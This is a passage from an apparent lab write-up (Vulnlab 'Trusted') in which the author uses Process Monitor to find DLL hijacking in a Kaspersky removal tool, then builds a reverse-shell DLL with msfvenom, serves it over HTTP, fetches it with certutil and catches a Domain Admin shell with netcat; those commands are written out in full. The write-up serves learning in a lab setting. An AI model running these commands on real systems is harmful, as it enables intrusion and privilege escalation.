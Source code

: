 ![](/images/vulnlab/trusted-vl/k.jpg)

For simplicities sake, I've outlined the filter parameters that we'll need to detect the processes of interest.

`Process Name - contains - Kaspersky -> then Include`
`Path - ends with - .dll -> then Include`

Running the file with these two filters still leaves us with a barrage of information, however you'll notice that many of the DLLs have a `Result` value of `NAME NOT FOUND`. This is particularly interesting, as the `File Path` for the DLL is within the same directory of the binary that was executed.

We'll also put down these results as another filter to see specifically what DLLs these results entail.

`Result - is - NAME NOT FOUND -> then Include`

![](/images/vulnlab/trusted-vl/l.jpg)

There are a numerous amount of DLLs that are executed within the same directory as the binary (my binary is located in `Downloads\kas\`). This presents us with a vulnerability that is also new for my research - DLL Hijacking.

# DLL Hijacking

DLL Hijacking is a Windows application vulnerability that essentially allows an attacker to load malicious DLLs into a process in place of regular DLLs. This can occur in the situation in front of us - when a binary uses DLLs that are located within a modifiable directory that we have access to. By replacing a normal DLL that is used, we can trick the Windows API into running our malicious DLL.

I plan on making a research post about DLL Hijacking in the future, however in the meantime I've referenced a HackTricks post that illustrates it relatively well.
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking

So in that case let's give it a try. We'll start by creating a malicious DLL with `msfvenom`, which can be done using the following command. I initially tried this with replacing `USP10.dll`, however I found that it wouldn't spawn a reverse shell as intended. Instead, we'll use the `KasperskyRemovalToolENU.dll` that is called multiple times during runtime.
`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.0.173 LPORT=9001 -f dll > KasperskyRemovalToolENU.dll`

We'll then set up a Python web server with `python3 -m http.server 9002` to transfer the file.
Also, we'll set up a netcat reverse shell so that when `cpowers` executes the Kaspersky tool binary, we'll get a callback after our malicious DLL is ran.

On Kali - `nc -lvnp 9001`
On WinRM - `certutil.exe -urlcache -f http://10.8.0.173:9002/KasperskyRemovalToolENU.dll KasperskyRemovalToolENU.dll`

After a few seconds of waiting, our netcat listener should spawn a reverse shell as `cpowers`.

![](/images/vulnlab/trusted-vl/m.jpg)

Since we are now a DA, we can read the user flag that is present in the `Administrator` directory.
